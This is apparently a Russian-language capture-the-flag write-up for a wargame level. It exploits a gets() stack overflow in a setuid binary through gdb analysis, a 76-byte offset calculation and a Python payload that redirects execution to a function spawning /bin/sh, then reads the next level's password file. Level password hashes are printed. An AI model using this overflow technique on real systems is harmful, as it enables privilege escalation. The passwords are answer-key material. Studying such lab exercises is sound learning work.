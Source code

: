 # su level1
# pass: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

====
Уязвимость: gets, переполняем строку (стек) и заменяем адрес возврата на другую функцию
====

# ls -la
*-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*

# ./level1

**Поведение: ждёт ввода и завершается**

# ltrace ./level1 
   __libc_start_main(0x8048480, 1, 0xbffff804, 0x80484a0, 0x8048510 <unfinished ...>
   gets(0xbffff720, 47, 0xbffff76c, 0xb7fd0ff4, 0x80484a0        
   )                                   = 0xbffff720
   +++ exited (status 32) +++

# gdb level1

# disas main

Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp               80
   0x08048489 <+9>:     lea    0x10(%esp),%eax          16 спускаемся от вершины стека(esp)
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret    
End of assembler dump.

В мейне кроме gets ничего не вызывается. 
gets - уязвимая функция, не проверяет пользовательский ввод (то есть можно кинуть всё, что угодно, и она скушает).
Таким образом, можно подать большую строку и будет сегфолт.
Буфер на 64 (80 минус сдвиг на 16):
b *main+13
r
p/x $esp
p/x $eax 

Возможно, есть другие функции, проверим

# i func
<>
0x08048444  run
0x08048480  main
<>

Есть функция run

# disas run

Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp               24
   0x0804844a <+6>:     mov    0x80497c0,%eax           stdout
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax          "Good... Wait what?\n"
   0x08048456 <+18>:    mov    %edx,0xc(%esp)            12
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)           19
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)            1
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)        "/bin/sh"
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave  
   0x0804847f <+59>:    ret    
End of assembler dump.

Видно, что функция вызывает fwrite, а затем открывает шелл.

Теперь необходимо сделать так, чтобы произошло переполнение во время вызова gets и была вызвана функция run.
Для этого, после достижения переполнения, в указатель на функцию возврата прописать адрес 0x08048444 (run) в обратном порядке (от младшего к старшему)
(x/a) $ebp + 4 - адрес возврата у функции
$esp + 0x10 - адрес начала буфера
p $ebp + 4 - ($esp + 0x10)
76 - необходимое количество, чтобы оказаться перед адресом возврата.
+ 4 байта - адрес возврата 

# python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/l1

# cat /tmp/l1 - | ./level1

# cat /home/user/level2/.pass

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
